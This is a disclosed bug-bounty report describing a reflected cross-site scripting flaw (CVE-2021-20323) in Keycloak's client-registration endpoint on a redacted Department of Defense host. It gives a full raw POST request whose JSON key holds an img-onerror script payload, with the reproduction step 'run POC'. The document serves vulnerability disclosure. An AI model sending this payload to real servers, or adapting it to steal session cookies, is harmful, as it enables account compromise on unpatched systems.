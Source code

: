 # Reflected XSS via Keycloak on ███ [CVE-2021-20323]

## Report Details
- **Report ID**: 2221104
- **URL**: https://hackerone.com/reports/2221104
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-10-22T20:58:33.904Z
- **Disclosed**: 2024-05-03T18:09:05.488Z

## Reporter
- **Username**: maskedpersian
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Keycloak 8.0 and prior contains a cross-site scripting vulnerability. An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks. A lack of proper input validation made it possible for an attacker to execute malicious JavaScript code on https://██████████/auth/realms/master/clients-registrations/openid-connect This reflected XSS would execute after making a POST request with an XSS payload in the path of the request. As a result, the server would directly insert the payload into the response, allowing the XSS to trigger on the page.
References
https://cure53.de/pentest-report_keycloak.pdf
https://hackerone.com/reports/87040
POC:
```
POST /auth/realms/master/clients-registrations/openid-connect HTTP/1.1
Host: █████
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 63

{"<img onerror=confirm('xss_poc_unexpectedbufferc0n') src/>":1}
```

## Impact

If successful, a cross site scripting attack can severely impact websites and web applications, damage their reputation and relationships with customers. XXS can deface websites, can result in compromised user accounts, and can run malicious code on web pages, which can lead to a compromise of the user's device.

## System Host(s)
██████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
run POC

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
